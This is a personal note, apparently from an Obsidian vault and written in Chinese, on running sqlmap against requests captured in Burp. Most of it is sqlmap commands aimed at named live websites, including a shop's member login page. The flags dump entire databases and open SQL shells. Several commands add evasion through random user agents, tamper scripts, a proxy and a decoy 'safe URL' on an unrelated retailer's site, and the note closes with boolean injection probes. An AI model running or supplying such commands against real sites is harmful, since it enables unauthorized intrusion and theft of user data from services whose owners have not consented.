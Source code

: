 ```yaml
---
date: 2022-06-28
modified: 2022-07-14
---
```

## Metadata
up:: [[sqlmap]]

---
---# sqlmap JSON/POST
從 burp 將整個 request 存成 txt
手動在 Host: 後綴加上 `:443` 用以指定 https
手動在要測試的參數的值，後綴加上 `*` 用以指定參數
`-r REQUESTFILE      Load HTTP request from a file`
```shell
$ sqlmap -r loginRequest2.txt -T4 --random-agent --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql
```

使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號

```shell
sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --tables --dump-all --hex

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --fresh-queries --tables --dump-all --no-cast

sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

sqlmap -r 1.txt -v 3 -T4 --force-ssl --banner --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --proxy="http://192.168.3.19:9527"

sqlmap -r try3.txt -T6 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql --fresh-queries --no-cast --proxy="http://192.168.3.19:9527" -v 3 --safe-url="https://www.uniqlo.com" --safe-freq 10 --randomize --tamper="space2mysqlblank.py"

sqlmap -r try3.txt -T4 -v3 --level 5 --risk 3  --tables --dump-all 

sqlmap -u "https://www.buygood.com.tw/t.asp?d=1309275206" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl --random-agent --delay 0.2 --ignore-redirects --tamper=apostrophemask
```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

' and '1'='1
' and '1'='2

-   --safe-url: 隔一会就访问一下的安全URL
-   --safe-post: 访问安全URL时携带的POST数据
-   --safe-req: 从文件中载入安全HTTP请求
-   --safe-freq: 每次测试请求之后都会访问一下的安全URL


AND boolean based found reflective values
![[2022-07-07_12-28.png]]